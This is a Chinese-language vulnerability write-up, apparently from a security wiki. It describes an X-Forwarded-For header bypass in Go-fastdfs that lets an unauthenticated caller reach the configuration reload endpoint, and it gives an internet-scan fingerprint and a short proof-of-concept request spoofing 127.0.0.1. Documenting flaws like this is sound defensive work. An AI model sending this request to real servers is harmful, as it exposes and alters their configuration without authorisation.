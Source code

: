 # Go-fastdfs GetClientIp 未授权访问漏洞

## 漏洞描述

Go-fastdfs GetClientIp方法存在XFF头绕过漏洞，攻击者通过漏洞可以未授权调用接口，获取配置文件等敏感信息

## 漏洞影响

<a-checkbox checked>Go-fastdfs  </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"go-fastdfs" </a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1680944897657-800f832f-0834-4ac3-bf45-bd1f208326a4-20230415101718568.png)

调用读取配置接口，返回 ip 不允许访问

```plain
/group1/reload?action=get
```

![img](/assets/PeiQi-Wiki/img/1680947487576-fe109286-5b54-4719-8a6c-97d0bab0195e.png)

追踪错误信息代码

![img](/assets/PeiQi-Wiki/img/1680947601766-4ef44fa9-6daf-429f-b744-b8c9816f705f.png)

![img](/assets/PeiQi-Wiki/img/1680947698319-f074adce-1bb0-4d6c-892f-75a9e97499fc.png)

跟一下 GetClientIp方法，这里会从 X-Forwarded-For 等参数获取值

![img](/assets/PeiQi-Wiki/img/1680947727700-28338520-a44b-4dc0-aaea-d8472455cae9.png)

回到调用的起点，验证方法为调用 IsPeer 参数

![img](/assets/PeiQi-Wiki/img/1680956299322-f59b1eb3-ec47-4c26-8e65-ea899bb4fce1.png)

![img](/assets/PeiQi-Wiki/img/1680956399670-9e08c9e2-187c-48ad-9cd9-2fafd245061d.png)

这里主要是验证获取到的值是否为配置中的 AdminIps

![img](/assets/PeiQi-Wiki/img/1680956485885-f8063692-42e2-4287-80fa-9513fcac3d99.png)

在配置文件 cfg.json 中 admin_ips 默认为 127.0.0.1 (可被爆破)

![img](/assets/PeiQi-Wiki/img/1680956563169-0313e611-f10e-4104-9ce2-893ed316ebc9.png)

所以通过设置 X-Forwarded-For 就可以绕过接口调用限制，执行修改配置文件等操作，验证POC

```plain
/group1/reload?action=get

X-Forwarded-For: 127.0.0.1
```

![img](/assets/PeiQi-Wiki/img/1680956654166-f02b3f8a-e474-4749-8290-7e6890d937dd.png)